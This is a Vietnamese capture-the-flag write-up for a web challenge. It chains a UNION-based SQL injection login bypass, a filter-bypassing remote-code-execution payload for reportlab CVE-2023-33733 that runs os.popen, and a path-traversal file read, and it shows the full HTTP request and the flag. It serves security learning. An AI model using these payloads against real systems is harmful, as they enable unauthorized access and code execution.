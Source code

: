 ```yaml
---
title: TITLE
date: 'XXXX-XX-XX'
draft: false
authors: ['AUTHOR']
tags: ['XXX', 'YYY']
summary: 'XXX'
canonical: ''
---
```


## TITLE

## Table of Contents

1. [Source](#Source)
2. [Solution](#Solution)

## Main Content

### SQLi username

Ở đây thì khi login, ta thấy chương trình sẽ gọi tới hàm `getUser` trong database
```python
user, status = database.get_user(username, password)
```

Nhìn vào file `database.py`, ta thấy được cách hàm này hoạt động:

```python
def get_user(self, username, password):
    password_bytes = password.encode("utf-8")
    query = text(f"SELECT * FROM users WHERE username = '{username}'")
    print("Query:", query)
    user = self.session.execute(query).fetchone()
    if not user:
        return None, False
    if bcrypt.checkpw(password_bytes, user.password.encode("utf-8")):
        return user, True
    return None, False
```

Đoạn code trên bị lỗi SQL Injection ở chỗ `username` khi nó được truyền vào query mà không được escape. Để ý class user có dạng

```python
class Users(db):
    __tablename__ = "users"
    id = Column(Integer, primary_key=True, autoincrement=True)
    username = Column(String)
    password = Column(String)
    is_admin = Column(Boolean, default=True)
```

Như vậy để có thể login với user có quyền admin ta tạo tài khoản với user bất kỳ. Ở đây là `shisuite`, sau đó ta sẽ login với `username` như sau:

```
' union select id, username, password, 1 from users where username%3d'shisuite
```

Như vậy câu query sẽ trở thành
```
SELECT * FROM users WHERE username = '' union select id, username, password, 1 from users where username='shisuite'
```

Nó sẽ trả về user `shisuite` nhưng mà có quyền admin

### CVE-2023-33733
Do có chức năng liên quan tới chuyển file txt thành pdf trong file `app.py` (/convert, /view_pdf), mình đã cố tìm cách để có thể khai thác bằng cách tìm điểm yếu trong code nhưng hardcore vcl.

Sau cùng thì như HTB Machine Easy, có thể là nó sẽ có CVE nào đó, nên mình đã search google "python pdf cve" và ra ngay một con hàng trên đầu
```
https://github.com/c53elyas/CVE-2023-33733
```

Đây là CVE của reportlab (được sử dụng trong `convert_pdf.py`) có thể inject code vào pdf. Tuy nhiên thì mình thử kiểu gì cũng éo được. Sau cùng thì tư duy `mineme2` lại khiến mình thử diff lib reportlab của bài này với bản gốc xem có gì hay ho (cụ thể là bản 3.6.12)

Ở file `rl_safe_eval.py` đã filter hết các từ sau:
```python
__rl_unsafe__ = frozenset('''all any breakpoint builtins co_argcount co_cellvars co_code co_consts co_filename co_firstlineno 
							co_flags co_freevars co_kwonlyargcount co_lnotab co_name co_names co_nlocals co_posonlyargcount 
							co_stacksize co_varnames cr_await cr_code cr_frame cr_origin cr_running ctype enumerate filter frozenset 
							func_code func_defaults func_doc func_globals func_name f_back f_builtins f_code f_exc_traceback f_exc_type 
							f_exc_value f_globals f_lasti f_lineno f_locals f_restricted f_trace gi_code gi_frame gi_running gi_yieldfrom 
							globals hasattr im_class im_func im_self iter list locals map max min next pow range reversed set sorted 
							sum system tb_frame tb_lasti tb_lineno tb_next vars __annotations__ __code__ __defaults__ __func__ __globals__ 
							__iter__ __kwdefaults__ __module__ __name__ __qualname__ __self__'''.split()
```
Challenge đã filter `pow` và `system` nên ta sẽ đổi thành `popen` và `type` để bypass filter

Final payload:
```
<para> <font color="[ [ getattr(type,Word('__globals__'))['os'].popen('cat /flag*.txt > /tmp/hehe.pdf').read() for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">                exploit                </font>            </para>
```

### LFI 

```python
@app.route("/view_pdf", methods=["GET"])
def view_pdf():
    token = request.cookies.get("token")
    if not token:
        return redirect(url_for("login"))
    
    try:
        jwt_payload = jwt.decode(token, JWT_KEY, algorithms=[JWT_ALG])
    except jwt.ExpiredSignatureError:
        return redirect(url_for("login"))
    except jwt.InvalidTokenError:
        return redirect(url_for("login"))
    
    if not jwt_payload.get("login"):
        return redirect(url_for("login"))
    
    if jwt_payload.get('login') and is_admin(jwt_payload):
        pdf_filename = request.args.get('f')
        if not pdf_filename:
            return render_template("error.html", title="Error", error="No file provided", redirect_url="/convert"), 400
        return send_file(os.path.join(UPLOAD_FOLDER, pdf_filename), as_attachment=False)
```

Đoạn code này bị LFI nên có thể đọc file bất kỳ, vậy exccute đưa flag ra `/tmp/hehe.pdf` và đọc file flag là xong

```
GET /view_pdf?f=/tmp/hehe.pdf HTTP/2
Host: hells.ehc-fptu.club
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsb2dpbiI6dHJ1ZSwidXNlcm5hbWUiOiJ0cnVuZ3BxIiwiaXNfYWRtaW4iOjF9.xhq-NmIQhPKFkV2Ua19nfn9esgEYIo2LvAac6g5kmvs
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: embed
Referer: https://hells.ehc-fptu.club/convert
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

HTTP/2 200 OK
Date: Wed, 11 Sep 2024 12:03:09 GMT
Content-Type: application/pdf
Content-Length: 59
Content-Disposition: inline; filename=hehe.pdf
Last-Modified: Wed, 11 Sep 2024 12:00:33 GMT
Cache-Control: no-cache
Etag: "1726056033.212105-59-540542130"
Vary: Cookie, Accept-Encoding
Set-Cookie: session=; Expires=Thu, 01 Jan 1970 00:00:00 GMT; Max-Age=0; Secure; HttpOnly; Path=/; SameSite=Lax
Cf-Cache-Status: BYPASS
Accept-Ranges: bytes
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v4?s=06L56Ghj9h69RbqcnkwHAsBPtIRla6BNeK7q2EU0nb6g1LF4XlRDZDQiWoZRcZYeB5%2BSArn%2BIHBIJDdDwRcXbY6FYLYVRSc5SqcdirAK2zE0%2B3M%2FZMya6IB1JNHiMRIBgxYVk4hQ"}],"group":"cf-nel","max_age":604800}
Nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Strict-Transport-Security: max-age=2592000
X-Content-Type-Options: nosniff
Server: cloudflare
Cf-Ray: 8c1783528c409ca7-SIN
Alt-Svc: h3=":443"; ma=86400

EHC{3asy_brute_f0rce_jwt_4nd_expl0it_ed1ted_CVE-2023-33733}
```
